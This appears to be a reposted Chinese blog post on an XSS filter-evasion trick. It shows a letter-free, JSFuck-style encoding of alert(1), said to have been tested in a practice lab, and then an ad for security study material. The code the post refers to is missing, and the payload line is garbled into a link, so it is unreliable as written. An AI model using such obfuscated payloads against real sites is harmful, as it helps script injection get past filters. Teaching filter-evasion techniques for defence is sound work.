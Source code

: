 # 原创
：  XSS骚操作

# XSS骚操作

在网上看到的xss无字母的一个骚操作，可以先看一下下面这两个代码：

那么xss也是可以这样的，比如：

<br/> 实战效果：<br/> 这里先将这个编码一下，直接塞到靶场看效果：

alert(1)的编译代码：<br/> X=[![]]+!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[];[][X[0]+X[19]+X[2]+X[2]][X[12]+X[15]+X[11]+X[3]+X[5]+X[6]+X[7]+X[12]+X[5]+X[15]+X[6]](https://bbs.zkaq.cn/t/X%5B1%5D+X%5B2%5D+X%5B4%5D+X%5B6%5D+X%5B5%5D+'%20rel=)‘)().

## **免费领取安全学习资料包！**<img alt="" height="768" src="https://img-blog.csdnimg.cn/direct/386c5d1b067c4df388821d7fa4d792cb.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/4b64c27095bf490987047ab15c75198d.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/e2525ff2f9f34765b64972570ddfe6af.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/83942ffc100347e98fc19e01bd352f08.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/354b905a9c5348b39a98ae93b6b426af.png" width="665"/>

应急响应笔记

学习路线
